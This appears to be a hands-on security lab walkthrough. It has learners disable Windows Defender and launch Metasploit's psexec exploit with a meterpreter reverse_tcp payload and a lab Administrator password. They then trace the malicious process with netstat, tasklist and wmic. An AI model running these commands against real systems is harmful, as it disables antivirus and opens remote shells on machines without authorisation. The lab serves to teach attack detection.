# Windows CLI

In this lab, we will create **malware**, run it, and use the tools we went through in the slides to look at what an attack looks like on a live system.  

One of the best ways to learn is to actually just dig in and do it.  

Let’s get started by opening a Terminal.  

Alternatively, you can open a Kali instance by clicking the Kali logo in the taskbar.

Before going any further, we need to ensure that **Windows Defender** is disabled. To do this, open a Windows **Powershell** by clicking the icon in the taskbar.

`Set-MpPreference -DisableRealtimeMonitoring $true`



Please note, if you get red errors that say ` A general error occurred that is not covered by a more specific error code.` that is OK!  It means **Defender** was disabled.  We run the above command to ensure that it is off for this lab.  It has a sneaky way of turning back on again...

Now that we disabled **Windows Defender**, we can head back to our **Kali** terminal.

Within the terminal, please run the following command:

`ifconfig`>



Please note the IP address of **==your==** Ethernet adapter. 

Please note that my adapter is called **eth0** and my IP address is **172.26.19.133.**   

==**Your IP Address and adapter name may be different.**==

Please note your IP address for the **ADHD Linux system** on a piece of paper:

We need to gain root access within our **Kali** terminal. To do that, run the following command:

`sudo su -`

Next, we will start the **Metasploit** handler with the following command:

`msfconsole -q`

It will take a second to connect, be patient!
When connected, our terminal will look like this.



Next, run the following command:

`use exploit/windows/smb/psexec`



We will continue by running this command to set the location of the payload:

`set PAYLOAD windows/meterpreter/reverse_tcp`

We also need to set the RHOST IP by using the following command:

`set RHOST 10.10.1.209`



Remember, your IP will be different!

Next, we need to set the SMB username and password. 

`set SMBUSER Administrator`

`set SMBPASS T@GEq5%r2XJh`

It should look like this:



Now, we can run the exploit command

`exploit`



While there is not much here for this lab, it is key to remember that these two commands would help us detect an attacker that is mounting shares on other computers (net view).  It would also tell us if an attacker had mounted a share on this system (net session). 

We are not done with network connections yet.  Lets try looking at our malware!

Run the following command in a Windows Powershell 
`netstat -naob`



Well, that is a lot of data. This is showing us which ports are open on this system **(0.0.0.0:portnumber)** or **(LISTENING)**.
As well as the remote connections that are made to other systems **(ESTABLISHED)**.  In this example, we are really interested in the **ESTABLISHED** connections:



Specificly, we are interested in the connection on port 4444 as we know this is the port we used for our malware.

Now, let's drill down on that connection with some more data:

`netstat -f`

I like to run -f with netstat to see if there are any systems with fully qualified domains that we may be able to ignore. 

now we see our last connection with the port 4444.

Let's get the Process ID **(PID)** from the above screenshot so we can dig a little deeper.



Now, let's dive in!

First we will start with tasklist  

`tasklist /m /fi "pid eq PID"`

==**YOUR PID WILL BE DIFFERENT!**==



We can see the loaded **DLL's** above.  As we can see, there is not a whole lot to see here:

Let's keep digging with **wmic**:

`wmic process where processid=PID get commandline`



Ahh!!  Now we can see that the file was launched from the **command line**!  We know this because there are no options.

Let's see if we can see what spawned the process with **wmic**.

`wmic process get name,parentprocessid,processid | select-string PID`



Lets go through the steps we took to hunt for a malicious process
>We found its parent process ID.  
>We did a search on that process ID.  
>As you can see above, it was launched by the cmd.exe process.  
>Note that the search we just did may turn up some other things launched by the command line as well.

 

